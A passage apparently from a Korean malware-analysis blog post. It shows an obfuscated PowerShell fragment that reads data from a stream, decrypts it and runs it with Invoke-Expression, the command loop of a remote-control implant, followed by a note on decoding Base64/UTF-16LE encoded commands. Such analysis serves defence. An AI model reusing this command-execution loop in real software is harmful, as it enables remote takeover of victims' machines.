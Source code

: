 ```powershell
      try {
                     $B888BBB8B8B88B8B = $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, 16384)
                 } catch {
                    break
              }
                        $BBBB8888BBBBB8BB = $B8B888BB8B8888BB[5..($B888BBB8B8B88B8B - 1)]
                $B8B88B8BB888BBB8 = [System.Text.Encoding]::UTF8.GetString((lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $BBBB8888BBBBB8BB))
                         if ($B8B88B8BB888BBB8 -eq (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(109,112,97,124) -BB8BB8B8BBB8B8B8 8)) { break }
                      try {
                             $BB88B8B8BBBB888B = (Invoke-Expression $B8B88B8BB888BBB8 2)
                             }
                  }
```

[이 글](https://www.pwndefend.com/2021/09/04/decoding-powershell-base64-encoded-commands-in-cyberchef/)에 따르면 파워셀의 EncodedCommand를 디코딩하기 위해서는 Base64 디코딩 이후 UTF-16LE로 디코딩하면 된다고 한다  
<br>

---

![Image](/assets/img/250722_0/36.png)
